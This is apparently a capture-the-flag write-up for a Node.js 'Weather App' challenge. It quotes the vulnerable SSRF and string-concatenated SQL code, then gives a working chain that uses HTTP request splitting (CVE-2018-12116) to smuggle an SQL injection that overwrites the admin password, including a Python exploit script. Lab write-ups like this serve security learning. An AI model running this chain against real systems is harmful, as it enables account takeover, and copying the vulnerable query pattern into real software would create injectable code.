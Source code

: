 # Weather App
![Screenshot from 2021-08-19 11-51-31](https://user-images.githubusercontent.com/87865134/130009734-7b87ae67-8224-4654-8bc8-f597d5b60c24.png)

## - Information gathering & Analysis
- `"nodeVersion": "v8.12.0"` => maybe have some CVE 
- router `/api/weather` maybe have SSRF
  - router:
  ```JavaScript
  router.post('/api/weather', (req, res) => {
    let { endpoint, city, country } = req.body;

    if (endpoint && city && country) {
      return WeatherHelper.getWeather(res, endpoint, city, country);
    }

    return res.send(response('Missing parameters'));
  });
  ```
  - WeahterHelper.js:
  ```JavaScript
  let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); 
  ```
  - HttpHelper.js:
  ```JavaScript
  const http = require('http');

  module.exports = {
    HttpGet(url) {
      return new Promise((resolve, reject) => {
        http.get(url, res => {
          let body = '';
          res.on('data', chunk => body += chunk);
          res.on('end', () => {
            try {
              resolve(JSON.parse(body));
            } catch(e) {
              resolve(false);
            }
          });
        }).on('error', reject);
      });
    }
  }
  ```
- router `/register` only use in `localhost` and maybe SQLi
  - router: 
  ```JavaScript
  router.post('/register', (req, res) => {
    if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
      return res.status(401).end();
    }

    let { username, password } = req.body;

    if (username && password) {
      return db.register(username, password)
        .then(()  => res.send(response('Successfully registered')))
        .catch(() => res.send(response('Something went wrong')));
    }

    return res.send(response('Missing parameters'));
  });
  ```
  - database.js:
  ```JavaScript
  async register(user, pass) {
    // TODO: add parameterization and roll public
    return new Promise(async (resolve, reject) => {
      try {
        let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
        resolve((await this.db.run(query)));
      } catch(e) {
        reject(e);
      }
    });
  }
  ```
- **ATTACK**: SQL Injection through SSRF
  - use CVE to perform SSRF
  - use SSRF to send SQLi payload 

## - Exploit
1. Use [CVE-2018-12116 - HTTP Request Splitting](https://www.cvedetails.com/cve/CVE-2018-12116/)
```JavaScript
 http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() {
  });
```
  - `http.get()` split to 2 request:
  ```
  GET / HTTP/1/1
  HOST 127.0.0.1:8000
  
  GET /private
  ...
  ```
2. Payload to perform SQLi
- bypass SQL
```
INSERT INTO users (username, password) VALUES ('admin', 'ndqk') ON CONFLICT(username) DO UPDATE SET password='dgkim' where username='admin' -- ')
```
- request:
```
POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 126

username=admin&password=k%27%29+ON+CONFLICT%28username%29+DO+UPDATE+SET+password%3D%27dgkim%27+where+username%3D%27admin%27+--
```

3. Use Http request splitting to perform SSRF
- python script:
```python
import requests

crlf = '\u010D\u010A'
space = '\u0120'
payload = ''

# request 1
payload += space + 'HTTP/1.1' + crlf; 
payload += 'Host:' + space + '127.0.0.1' + crlf; 
payload += 'Connection:' + space + 'close' + crlf + crlf; 

# request to exploit
payload += 'POST' + space + '/register' + space + 'HTTP/1.1' + crlf; 
payload += 'Host:' + space + '127.0.0.1' + crlf; 
payload += 'Connection:' + space + 'close' + crlf; 
payload += 'Content-Type:' + space + 'application/x-www-form-urlencoded' + crlf; 
payload += 'Content-Length:' + space + '126' + crlf + crlf
payload += 'username=admin&password=k%27%29+ON+CONFLICT%28username%29+DO+UPDATE+SET+password%3D%27admin%27+where+username%3D%27admin%27+--'
payload += crlf + crlf

# request 3
payload += 'GET' + space + '/'

data = {
    'endpoint': '127.0.0.1',
    'city' : payload,
    'country' : 'aaa'
}

url = 'http://139.59.166.56:31316/api/weather'
print(requests.post(url, json=data))


```

4. Login with admin account to get flag   

![Screenshot from 2021-08-19 13-28-40](https://user-images.githubusercontent.com/87865134/130019008-0de3e833-668d-4d31-9541-30533637aaac.png)

## - Description
> ***category:***
  - Components with know vulnerabilities
  - Sever-side Request Forgery
  - SQL injection

## - Reference
- https://hackerone.com/reports/409943
- https://www.cvedetails.com/cve/CVE-2018-12116/
